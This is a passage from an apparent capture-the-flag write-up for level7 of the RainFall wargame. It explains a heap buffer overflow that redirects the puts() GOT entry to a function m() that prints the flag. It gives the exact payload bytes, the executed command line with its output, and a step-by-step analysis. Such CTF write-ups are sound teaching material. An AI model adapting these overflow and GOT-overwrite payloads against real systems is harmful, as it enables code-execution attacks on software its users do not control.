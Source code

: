 ## Exploitation Implementation

### 15. Crafting the Dual Payload
```bash
# First argument: Overflow buffer1 and corrupt data2->buffer pointer
# 20 bytes padding + puts GOT address (little-endian)
arg1="A"*20 + "\x28\x99\x04\x08"

# Second argument: Function address to write to GOT  
# m() function address (little-endian)
arg2="\xf4\x84\x04\x08"
```

**Payload Breakdown:**
- **arg1**: `"A"*20 + "\x28\x99\x04\x08"`
  - 20 bytes: Fill buffer1 and reach data2->buffer pointer
  - `\x28\x99\x04\x08`: puts() GOT address (0x08049928) in little-endian
  
- **arg2**: `"\xf4\x84\x04\x08"`  
  - `\xf4\x84\x04\x08`: m() function address (0x080484f4) in little-endian

### 16. Understanding Little-Endian Encoding
```
puts() GOT address: 0x08049928
Little-endian bytes: \x28\x99\x04\x08

m() function address: 0x080484f4  
Little-endian bytes: \xf4\x84\x04\x08

Why little-endian?
Intel x86 stores multi-byte values with least significant byte first
```

### 17. Execute the Exploit
```bash
level7@RainFall:~$ ./level7 $(python -c "print 'A'*20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1623455678
```

**Success Analysis:**
1. **First strcpy executed**: Overflowed buffer1 with 20 A's + puts GOT address
2. **Pointer corruption**: data2->buffer now points to puts() GOT entry (0x08049928)
3. **Second strcpy executed**: Wrote m() address (0x080484f4) to puts() GOT entry  
4. **GOT hijacking successful**: puts() now points to m() instead of real puts()
5. **Function redirection**: When puts("~~") was called, m() executed instead
6. **Flag retrieved**: m() printed flag data with timestamp using printf()

### 18. Memory State During Exploitation

**Before Exploit:**
```
Heap:
data2->buffer points to: [buffer2 address]

GOT Table:
puts@got (0x08049928): [address of real puts() in libc]
```
